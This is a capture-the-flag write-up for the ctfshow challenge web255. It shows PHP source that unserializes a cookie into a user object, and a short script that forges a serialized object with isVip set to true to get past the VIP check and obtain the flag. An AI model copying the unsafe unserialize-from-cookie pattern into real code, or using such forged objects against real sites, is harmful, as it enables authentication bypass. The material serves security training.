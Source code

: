 ``payload：?username=xxxxxx&password=xxxxxx``

## web255

```php
<?php

error_reporting(0);
highlight_file(__FILE__);
include('flag.php');

class ctfShowUser{
    public $username='xxxxxx';
    public $password='xxxxxx';
    public $isVip=false;

    public function checkVip(){
        return $this->isVip;
    }
    public function login($u,$p){
        return $this->username===$u&&$this->password===$p;
    }
    public function vipOneKeyGetFlag(){
        if($this->isVip){
            global $flag;
            echo "your flag is ".$flag;
        }else{
            echo "no vip, no flag";
        }
    }
}

$username=$_GET['username'];
$password=$_GET['password'];

if(isset($username) && isset($password)){
    $user = unserialize($_COOKIE['user']);    
    if($user->login($username,$password)){
        if($user->checkVip()){
            $user->vipOneKeyGetFlag();
        }
    }else{
        echo "no vip,no flag";
    }
}
```

和上一题不同的是，在15行的login函数中没有设置isVIP=true，所以我们就需要通过第32行反序列化将其设值为true

```php
<?php

class ctfShowUser{
    public $isVip=true;
}

echo serialize(new ctfShowUser);   
# O:11:"ctfShowUser":1:{s:5:"isVip";b:1;}
```

